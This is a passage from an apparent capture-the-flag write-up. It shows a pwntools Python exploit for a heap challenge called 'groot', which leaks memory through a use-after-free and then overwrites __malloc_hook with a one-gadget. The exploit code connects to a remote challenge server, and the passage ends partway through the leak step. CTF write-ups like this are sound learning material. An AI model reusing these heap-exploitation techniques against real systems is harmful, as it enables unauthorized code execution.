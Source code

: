However, this time we need to change the pointer of the content of file5 into the pointer of the `__malloc_hook`, consume two chunks and write the value of the gagdet in the `__malloc_hook`. I used the third gadget.

## Exploit

```python
from pwn import *

OFFSET_FILENAME3 = 0x12fc0
OFFSET_FILENAME4 = 0x13040
OFFSET_FILECONTENT5 = 0x130c8
ELF_OFFSET = 0x204040
ELF_POSITION = 0x11eb8
SCHK_OFFSET_GOT = 0x203f70
SCHK_OFFSET = 0x134c80
MALLOC_HOOK_OFFSET = 0x3ebc30
MAGIC = 0x10a38c
env_vars = {'LD_LIBRARY_PATH':'.'}

def createFile(conn, file_name, content):
    conn.recvuntil('$')
    conn.sendline('mkfile ' + file_name)
    conn.recvuntil('Content?')
    conn.send(content)

def makeDir(conn, dir_name):
    conn.recvuntil('$')
    conn.sendline('mkdir ' + dir_name)

def cdDir(conn, dir_path):
    conn.recvuntil('$')
    conn.sendline('cd ' + dir_path)

def rm(conn, file_name):
    conn.recvuntil('$')
    conn.sendline('rm ' + file_name)

def mvFile(conn, old, new):
    conn.recvuntil('$')
    conn.sendline('mv ' + old + ' ' + new)

def ls(conn, path=''):
    conn.recvuntil('$')
    conn.sendline('ls ' + path)
    return conn.recvuntil('\n\n')

def touch(conn, file_name):
    conn.recvuntil('$')
    conn.sendline('touch ' + file_name)

#conn = process('./groot_patched', env=env_vars, aslr=False)
conn = remote('54.238.202.201', 31733)
makeDir     (conn, 'directory1')
cdDir       (conn, 'directory1')
createFile  (conn, 'file1', 'AAAA')
createFile  (conn, 'file2', 'BBBB')
createFile  (conn, 'file3', 'CCCC')
cdDir       (conn, '..')
rm          (conn, 'directory1')
makeDir     (conn, 'directory1')
leak = ls   (conn, 'directory1')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[2]
leak = leak.ljust(8, '\x00')
```